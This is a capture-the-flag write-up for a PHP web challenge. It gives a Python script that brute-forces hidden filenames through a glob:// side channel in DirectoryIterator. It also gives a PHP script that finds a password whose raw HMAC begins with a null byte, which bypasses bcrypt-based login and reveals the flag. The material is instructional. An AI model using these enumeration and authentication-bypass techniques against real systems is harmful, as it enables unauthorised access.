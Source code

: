 
# Ways of php

![image](https://user-images.githubusercontent.com/80924519/172225669-8a3bc7fa-1506-4d9b-8ae6-53208a69d842.png)

## Challenge

Lets visit the url:

![image](https://user-images.githubusercontent.com/80924519/172225767-431654e6-6dea-41e5-901e-c7e77bcd4efa.png)

We get the source code of the page itself:

```php
 <?php
    if (isset($_REQUEST['f'])) {
        $c = $_REQUEST['f'];
        try {
        foreach (new DirectoryIterator($c) as $f) echo $f->getSize() . '\r';
        } catch (Exception $e) {
            include 'A4UqCitMd2.html';
        }
        exit;
    }
?> 
```

So what it basically does is, it checks if the parameter `f` is set. If its set it calls the [DirectoryIterator](https://www.php.net/manual/en/class.directoryiterator.php) with getSize:

```
Get size of current DirectoryIterator item 
```

If there is an error it will return the html file(the homepage).

So what it does is, it checks the size of files in a given directory we specify in the parameter as example:

```
http://159.65.232.9:42068/?f=/var/www/html
```

We get:

![image](https://user-images.githubusercontent.com/80924519/172227422-facba3db-3f21-45b9-82d1-69519786d2e8.png)


This are all file sizes in the `/var/www/html` directory. 

So how can we abuse this to get the flag?

## Exploit

So php does have a thing called [`glob://`](https://www.php.net/manual/en/wrappers.glob): 
```
glob:// — Find pathnames matching pattern
```

So we can now use something like:

```
http://159.65.232.9:42068/?f=glob://*.html
```

![image](https://user-images.githubusercontent.com/80924519/172227967-9d95a56b-563a-480f-8928-c8e7e85adfd7.png)


It will show all html file sizes in the current directory where the homepage lives.
So now if we try something like:

```
http://159.65.232.9:42068/?f=glob://1*.html
```

We dont get anything, so only if its true(in this case if there is a filename starting with 1, but there isnt) it will return.
So what we can do here is, do a blind attack to retrieve filenames. So we get the sizes. So to retrieve we use the sizes, when its there it means the letter we specify in the url is correct and a letter from the filename. I created this script:

```py
#!/usr/bin/env python3

import requests
import string 

chars = string.ascii_letters + string.digits

filename = ''
while True:
        for i in chars:
                r = requests.get(f'http://159.65.232.9:42068/?f=glob://{filename + i}*.html')
                print(r.url)
                if "785" in r.text:
                        print("Got correct char")
                        print(i)
                        filename += i
                else:
                        continue

print("The filename is: ", filename)
```
So after we run, we get the filename(it will run and wont stop, script can be improved(I am lazy)). So then we can visit the files we retrieve:

![image](https://user-images.githubusercontent.com/80924519/172230646-4ea2325d-7b04-44e6-94ed-897c1c8ed565.png)

So if we visit: 
```
http://159.65.232.9:42068/A4UqCitMd2.html
```
We get the error page:

![image](https://user-images.githubusercontent.com/80924519/172230739-1f7578e2-b98f-48b3-bcbe-7d7bf1f39535.png)


So now we can retrieve all files, there are some dummy files. The interesting files are:

```
WzNsbej4VS.php
```

It will show a login page:

![image](https://user-images.githubusercontent.com/80924519/172231029-34464367-eae6-4745-b631-67fb211131d9.png)

and the other file:

```
qHkldgoTQ4.tar
```

Lets untar it, we get a login.php file. Source code of the login page. I will only show the interesting part:

```php
<?php 

    $FLAG = 'REDACTED';
    $rp = 'REDACTED';
    $key = 'REDACTED';
    $hash_function = "sha256";

    if (isset($_POST['u']) && isset($_POST['p'])){
        if (md5($_POST['u']) === '21232f297a57a5a743894a0e4a801fc3'){
            $hash = password_hash(hash_hmac("sha256", $rp, $key, true), PASSWORD_BCRYPT);

            if(password_verify(hash_hmac("sha256", $_POST['p'], $key, true), $hash)){
                print $FLAG;
                exit;
            }
        }
        $msg = 'Incorrect!';
    }
?>
```

So now we have the login page and source, lets check how we can exploit this. We know we cant bruteforce because of the delay of 15 seconds(actually we can, but will take some time to run). So in the source we can see, it checks if `u` and `p` is set. So refering to username and password.
If the username hash equals to md5(admin) it will proceed otherwise it will tell incorrect. It will then create a variable called $hash with the `password_hash` function. Its using BCRYPT. Then it will hash our input in the password field and check if its equal. If its equal we will get the flag.

So I searched for weaknesses in `password_verify` and `password_hash`.
When googling: `password_hash php ctf` I found https://blog.pdgn.co/ctf/2016/10/02/tumctf-web300-writeup.html.
Its telling us:

```
Since “raw mode” is used, PHP does not hex-encode the output of the hash function when calling hash(), and so if a null byte is in data passed into password_hash, it’s incredibly easy to break. There’s a great article on this at ircmaxell’s blog that explains this vulnerability much better than I can.
```

So it if our input after hashing contains a null byte it will break/ignore the rest and let us login. So we can check the blog he shared:
https://blog.ircmaxell.com/2015/03/security-issue-combining-bcrypt-with.html

![image](https://user-images.githubusercontent.com/80924519/172233256-f2f12f0b-95fe-4c42-b7b3-32d5a557d0bb.png)

So because they set the parameter `true`, it accepts raw output so also null bytes. So lets copy his script and change the important parts. The key `GamingChair` was given in the discord server:

```php
<?php

$key = "GamingChair";
$hash_function = "sha256";
$i = 0;
$found = [];

while (count($found) < 1) {
    $pw = str_repeat($i, 5);
    $hash = hash_hmac($hash_function, $pw, $key, true);
    if ($hash[0] === "\0") {
        $found[] = $pw;
    }
    $i++;
}

var_dump($i, $found);

?>
```

So what this script does is its looping 1 time, it will create a variable `pw` with 5 times a number(00000, 11111 etc..). It will then create a hash with the given key and `pw`(data). It will then check if the first char of the hashed value equals a null byte, if yes it will add it to the array `found`. It will then dump the array and the index(`$i`). So lets run it:

![image](https://user-images.githubusercontent.com/80924519/172234752-e599e501-296c-438c-9b32-339f95304264.png)

We can now login with the credentials: 
`admin:562562562562562`

If we do that, we get the flag:

![image](https://user-images.githubusercontent.com/80924519/172234925-eb12f0d2-7916-45a1-88a8-4a9e34db5370.png)

`n00bz{D0nt_c0mb1n3_wh4t5_n0t_m34nt_t0_b3_c0mb1n3d}`

It was a nice cool challenge created by GamingChair. 



